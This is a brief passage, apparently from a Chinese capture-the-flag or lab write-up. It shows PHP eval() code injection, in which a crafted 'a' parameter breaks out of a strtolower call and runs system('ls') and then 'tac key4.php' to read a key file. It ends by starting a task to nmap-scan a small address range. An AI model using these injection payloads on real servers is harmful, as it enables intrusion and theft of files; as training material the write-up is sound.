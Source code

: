 `eval(\"\\$o=strtolower(\\\"$a\\\");\");`,这里假设$a赋值为`\");system('ls');(\"`
那这段代码就变成了
```
eval(\"$o=strtolower(\"\");system('ls');(\"\");\");
```
`vul.php?a=\");system('tac key4.php');(\"`
![upload successful](./images/pasted-904.png)
拿到key

# 综合题1

用nmap扫描网段10.1.10.81-86